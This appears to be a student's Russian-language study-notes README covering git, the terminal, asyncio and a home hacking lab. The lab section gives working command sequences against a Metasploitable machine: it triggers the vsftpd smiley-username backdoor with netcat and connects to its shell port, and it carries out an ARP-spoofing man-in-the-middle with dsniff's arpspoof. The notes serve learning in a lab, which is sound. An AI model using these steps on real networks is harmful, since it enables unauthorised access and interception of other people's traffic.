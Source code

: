 ## :point_down: Что тут у нас?
0. [:unlock:](#работа-с-git-octocat)
1. [Работа с :octocat:](#работа-с-git-octocat)
2. [Работа с :penguin:](#работа-с-terminal-penguin)
3. [Работа с Sublime](#работа-с-sublime-text)
4. [Работа с asyncio](#работа-с-asyncio)
5. [(C)читай hacker](#считай-hacker)

Вопросы:
Если await переключает программу на выполнение других тасков, то это разве не значит go to? я понимаю если await smthdef, но когда это  await asyncio.sleep...

___
#### :unlock:
64.233.163.113 - ip google
IP-адрес любого домена можно получить всегда с помощью терминальной утилиты ping или whois:

если wsl и vb не подружатся: https://stackoverflow.com/questions/58031941/how-to-get-virtualbox-6-0-and-wsl-working-at-the-same-time

настольная лаба:
pfSence скачать образ: https://repo.ialab.dsu.edu/pfsense/
msfadmin
kali

- уязвимость :)
1. получение ip к которому надо подключиться
через netdiscover получаем машины подключенные к той же локальной сети
```python
kali@kali:~$ sudo netdiscover
```
машина с наименьшим адресом - маршрутизатор

3. подключение к серверу
через Netcat - поддержка сетевых функций
```python
kali@kali:~$ nc 192.168.1.100 21 # открываем TCP-сокет на порте 21 просто чтобы был зачем то сокет
USER :)
# 331 Please specify the password.
PASS dfgfdg # любой
```
```python
kali@kali:~$ nc 192.168.1.100 6200 # в другом терминале подключаемся к порту для работы. проверил короче что реально если сразу эту запустить, то он говорит (UNKNOWN) [192.168.1.100] 6200 (?) : Connection refused
```

- ARP-спуфинг. Нижний уровень иерархии интернета.
Подделывает ARP ответ для жертвы, таким образом представляясь маршрутизатором в ARP-таблице жертвы и получаем контроль над исходящим незащищенным интернет трафиком
Подделываем ARP ответ для маршрутизатора, представляясь жертвой в ARP-таблице маршрутизатора и получаем контроль над входящим трафиком
```python
kali@kali:~$ sudo -i # стали рутом
root@kali:~$ apt-get update
root@kali:~$ apt-get install dsniff # накатываем приблуду

root@kali:~$ netdiscover # ищем айпи адреса в сети
# получили айпи маршрутизатора и жертвы

root@kali:~$ echo 1 > /proc/sys/net/ipv4/ip_forward # включаем пересылку пакетов

root@kali:~$ arpspoof -i eth0 -t 192.168.1.100 192.168.1.1 # <IP-адрес_жертвы> <IP-адрес_маршрутизатора> # инструмент из приблуды
# тут -i это флаг интерфейса, wlan = WiFi, eth0 = Ethernet
# -t это таргет, цель и дальше пишем за кого себя выдаем
```